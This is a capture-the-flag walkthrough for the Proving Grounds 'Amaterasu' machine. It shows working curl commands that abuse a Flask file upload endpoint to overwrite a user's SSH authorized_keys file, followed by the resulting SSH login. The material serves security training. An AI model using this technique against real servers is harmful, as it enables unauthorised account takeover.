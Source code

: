 ```yaml
---
layout: default
title: File Upload (Curl)
parent: Web Exploits
nav_order: 3
---
```


# Discovery of File Upload via Curl POST Reuqest

Running Gobuster we find _/help_ directory.

![help](../../../../assets/images/ctfs/proving_grounds/amaterasu/help.png)

It appears we can use a CURL POST request to upload a file to _/file-upload_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ curl -L -i -X POST -H "Content-Type: multipart/form-data" -F file=@"test.txt" -F filename="test.txt" http://192.168.160.249:33414/file-upload
HTTP/1.1 201 CREATED
Server: Werkzeug/2.2.3 Python/3.9.13
Date: Sun, 12 Nov 2023 23:10:50 GMT
Content-Type: application/json
Content-Length: 41
Connection: close

{"message":"File successfully uploaded"}

```

Checking the Flask server we can see the file was uploaded.

![test](../../../../assets/images/ctfs/proving_grounds/amaterasu/test.png)

We have LFI and now need to determine how best to exploit this.

# Exploitation

---

Checking the _/home_ directory we see there is a user directory _/alfredo_.

We can attempt to generate a new _id_rsa_ file to replace his existing RSA private key for SSH authentication.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ ssh-keygen
Generating public/private rsa key pair.
Enter file in which to save the key (/home/vagrant/.ssh/id_rsa): /home/vagrant/Documents/PG/PLAY/amatera
su/id_alfredo
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/vagrant/Documents/PG/PLAY/amaterasu/id_alfredo
Your public key has been saved in /home/vagrant/Documents/PG/PLAY/amaterasu/id_alfredo.pub

```

Now upload to the _/home/aldredo_ directory.

We need to upload as a _.txt_ file and remove the file extension on the remote directory where it is being uploaded.

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ mv id_alfredo.pub id_alfredo.txt

┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ curl -F filename="/home/alfredo/.ssh/authorized_keys" -F file=@id_alfredo.txt http://192.168.160.249:33414/file-upload
{"message":"File successfully uploaded"}


```

![authorized](../../../../assets/images/ctfs/proving_grounds/amaterasu/authorized.png)

Now we can authenticate to the SSH service as _alfredo_

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/amaterasu]
└─$ ssh -p 25022 -i id_alfredo alfredo@192.168.160.249
Last failed login: Sun Nov 12 18:28:25 EST 2023 from 192.168.45.217 on ssh:notty
There were 3 failed login attempts since the last successful login.
Last login: Tue Mar 28 03:21:25 2023
[alfredo@fedora ~]$ id
uid=1000(alfredo) gid=1000(alfredo) groups=1000(alfredo)
```
